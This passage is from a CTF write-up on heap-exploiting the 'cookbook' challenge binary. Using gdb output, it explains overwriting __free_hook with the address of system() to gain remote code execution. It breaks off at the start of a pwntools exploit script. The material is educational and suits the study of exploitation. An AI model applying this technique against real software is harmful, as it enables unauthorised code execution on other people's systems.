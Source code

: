 So we know where the wilderness starts (since we know the offset from the heap address we leaked, which should be the same). We also know where the free hook is. Now we can calculate how much space we need to allocate, so our next allocation will overwrite the free hook. To do that, we will use this formula:

For this part, whenever I allocate more heap memeory, I am doing it with the `g` option in the main menu.

```
	malloc_to_freehook = (freehook - 16) - wilderness
```

Essentially it's just the different between the wilderness and the freehook minues 16 to make room for the heap metadata. After we allocate that much space, we can see the data around the free hook:

```
Stopped reason: SIGINT
0xf774dc89 in __kernel_vsyscall ()
gdb-peda$ x/wx 0xf77258b0
0xf77258b0 <__free_hook>:	0x00000000
gdb-peda$ x/9wx 0xf7725890
0xf7725890:	0x00000000	0x00000000	0x00000000	0x00000000
0xf77258a0:	0x00000000	0x00000000	0x00000000	0x118d9b61
0xf77258b0 <__free_hook>:	0x00000000
```

So we can see that our free hook is right after the wilderness values (the amount of space we allocated here was `0xee726490` and `0xffffffff - 0xee726490 = 0x118d9b6f` so it is what we would expect it to be). Let's allocate more space on the heap, and this time just write the address of `system`, then see what the memory looks like:

```
Stopped reason: SIGINT
0xf774dc89 in __kernel_vsyscall ()
gdb-peda$ x/9wx 0xf7725890
0xf7725890:	0x00000000	0x00000000	0x00000000	0x00000000
0xf77258a0:	0x00000000	0x00000000	0x00000000	0x00000011
0xf77258b0 <__free_hook>:	0xf75a9060
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf75a9060 <system>
```

So we can see that we have successfully written over the value for free_hook with the address of system. Now when the free function runs, it will trigger the hook which will run the system function. Now to pass it an argument, what we can do is make a heap pointer to the `system` argument by giving the cookbook a new name (name is the argument), and when we remove the cookbook's name, free will be run with a pointer to our argument (so system will get our argument), and we will have remote code execution.

##Exploit

Putting it all together, we get this exploit:

```
'''
This exploit is based off of this writeup with multiple parts (one of the best writeups I ever saw):
https://www.youtube.com/watch?v=f1wp6wza8ZI
https://www.youtube.com/watch?v=dnHuZLySS6g
https://www.youtube.com/watch?v=PISoSH8KGVI
link to exploit: https://gist.github.com/LiveOverflow/dadc75ec76a4638ab9ea#file-cookbook-py-L20
'''

#Import ctypes for signed to unsigned conversion, and pwntools to make life easier
import ctypes
from pwn import *

#Establish the got address for the free function, and an integer with value zero
gotFree = 0x804d018
```